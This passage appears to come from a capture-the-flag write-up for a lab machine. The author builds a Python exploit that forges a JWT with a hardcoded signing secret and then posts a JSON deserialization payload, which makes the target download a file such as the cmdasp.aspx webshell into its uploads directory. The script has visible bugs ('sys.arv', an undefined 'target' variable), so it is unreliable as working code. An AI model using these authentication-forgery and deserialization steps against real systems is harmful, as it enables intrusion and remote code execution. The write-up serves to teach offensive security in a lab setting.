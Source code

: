 I’ll grab a copy of `cmdasp.aspx` from `/usr/share/webshells` that comes on Parrot (or Kali).

Now I’ll start building a Python script to exploit this. I’ll build off the JWT forging script I had earlier, changing it to store the token rather then print it. I’ll also add some code to handle parameters:

```

#!/usr/bin/env python3

import jwt
import requests
import sys
from datetime import datetime, timedelta
from urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

# Get args
try:
    ip = sys.argv[1]
    url = sys.arv[2]
    saveas = sys.argv[3]
except IndexError:
    print(f'Usage: {sys.argv[0]} [IP] [url to upload] [filename on target]')
    sys.exit()
    
# Forge JWT
jwt = jwt.encode({'name': "1", "exp": datetime.utcnow() + timedelta(days=7)}, 'secretlhfIH&FY*#oysuflkhskjfhefesf', algorithm="HS256")
headers = {'Authorization': f'Bearer {jwt}', 'Content-Type': 'application/json'}

```

### Submit Serialized Payload

Next I need to add the request to put the serialized object into the DB. [This paper](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf) from Blackhat has a *ton* of information on JSON deserialization. Looking at the payloads, the format typically goes:

```

{"$type": "[class.object]", "[class]", "version=[version]", "[parameter]": "[value]", "[parameter]": "[value]", ...}

```

I think version is optional, as it’s a keyword argument. With some playing around, I got this:

```

# Send DownloadHelper object as JSON
serial_payload = {"json": "{'$type':'Cereal.DownloadHelper, Cereal','URL':'" + url + "','FilePath': 'C:\\\\inetpub\\\\source\\\\uploads\\\\" + saveas + "'}"}
resp = requests.post(f'https://{target}/requests', json=serial_payload, headers=headers, verify=False)
if resp.status_code != 200:
    print('[-] Something went wrong')
    sys.exit()
serial_id = resp.json()['id']
print(resp.text)

```
